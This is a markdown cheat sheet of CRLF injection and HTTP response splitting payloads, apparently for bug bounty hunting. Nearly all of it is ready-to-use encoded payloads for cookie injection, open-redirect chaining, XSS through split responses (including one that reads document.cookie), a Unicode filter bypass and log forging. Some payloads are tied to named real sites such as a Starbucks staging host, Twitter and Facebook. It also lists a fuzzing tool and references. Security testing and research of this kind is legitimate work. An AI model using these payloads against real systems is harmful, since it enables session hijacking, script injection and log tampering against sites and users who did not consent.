 ### CRLF Injection || HTTP Response Splitting

#### 1. Header-based Test
- **Set-Cookie Injection**:
  ```
  %0dSet-Cookie:csrf_token=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx;
  ```

- **Basic CRLF Injection**:
  ```
  %0d%0aheader:header
  %0aheader:header
  %0dheader:header
  %23%0dheader:header
  %3f%0dheader:header
  /%250aheader:header
  /%25250aheader:header
  /%%0a0aheader:header
  /%3f%0dheader:header
  /%23%0dheader:header
  /%25%30aheader:header
  /%25%30%61header:header
  /%u000aheader:header
  ```

#### 2. CRLF Chained with Open Redirect
- **Examples**:
  ```
  //www.google.com/%2f%2e%2e%0d%0aheader:header
  /www.google.com/%2e%2e%2f%0d%0aheader:header
  /google.com/%2F..%0d%0aheader:header
  ```

- **Twitter Specific CRLF** (by @filedescriptor):
  ```
  %E5%98%8A%E5%98%8Dheader:header
  ```

#### 3. CRLF Injection to XSS
- **Example**:
  ```
  %0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2e%2e
  ```

#### 4. Response Splitting on 302 Redirect
- **Example**:
  ```
  %0d%0aContent-Type:%20text%2fhtml%0d%0aHTTP%2f1.1%20200%20OK%0d%0aContent-Type:%20text%2fhtml%0d%0a%0d%0a%3Cscript%3Ealert('XSS');%3C%2fscript%3E
  ```

#### 5. Response Splitting on 301 Code
- **Chained with Open Redirect** (by @black2fan, Facebook Bug):
  ```
  %2Fxxx:1%2F%0aX-XSS-Protection:0%0aContent-Type:text/html%0aContent-Length:39%0a%0a%3cscript%3ealert(document.cookie)%3c/script%3e%2F..%2F..%2F..%2F../tr
  ```

---

### CRLF Injection in Log Files
- **Example**:
  ```
  123.123.123.123 - 08:15 - /index.php?page=home
  /index.php?page=home&%0d%0a127.0.0.1 - 08:15 - /index.php?page=home&restrictedaction=edit
  ```

- **Result**:
  ```
  IP - Time - Visited Path
  123.123.123.123 - 08:15 - /index.php?page=home&
  127.0.0.1 - 08:15 - /index.php?page=home&restrictedaction=edit
  ```

---

### HTTP Response Splitting
- **Description**:
  - Exploiting CRLF to split HTTP responses and inject malicious content.

- **Example**:
  ```
  X-Your-Name: Bob
  ?name=Bob%0d%0a%0d%0a<script>alert(document.domain)</script>
  ```

- **Redirect Example**:
  ```
  /%0d%0aLocation:%20http://myweb.com
  ```

- **XSS Example**:
  ```
  http://www.example.com/somepage.php?page=%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E
  ```

---

### HTTP Header Injection
- **Description**:
  - Injecting headers to bypass security mechanisms like XSS filters or SOP.

- **Example**:
  ```
  http://stagecafrstore.starbucks.com/%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
  ```

---

### Cheatsheet

#### 1. HTTP Response Splitting
- ```
  /%0D%0ASet-Cookie:mycookie=myvalue
  ```

#### 2. CRLF Chained with Open Redirect
- ```
  //www.google.com/%2F%2E%2E%0D%0AHeader-Test:test2
  /www.google.com/%2E%2E%2F%0D%0AHeader-Test:test2
  /google.com/%2F..%0D%0AHeader-Test:test2
  /%0d%0aLocation:%20http://example.com
  ```

#### 3. CRLF Injection to XSS
- ```
  /%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23
  /%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
  ```

#### 4. Filter Bypass
- ```
  %E5%98%8A = %0A = \u560a
  %E5%98%8D = %0D = \u560d
  %E5%98%BE = %3E = \u563e (>)
  %E5%98%BC = %3C = \u563c (<)
  Payload = %E5%98%8A%E5%98%8DSet-Cookie:%20test
  ```

---

### Tools
- **CRLFuzz**: [https://github.com/dwisiswant0/crlfuzz](https://github.com/dwisiswant0/crlfuzz)

---
- https://portswigger.net/research/bypassing-character-blocklists-with-unicode-overflows
### References
- [Exploiting HTTP Parsers Inconsistencies](https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies)
- [Bug Bounty: Exploiting CRLF Injection](https://medium.com/bugbountywriteup/bugbounty-exploiting-crlf-injection-can-lands-into-a-nice-bounty-159525a9cb62)
- [CRLF Cheatsheet](https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/crlf.md)
- https://github.com/dwisiswant0/crlfuzz
- /r/t
--- 

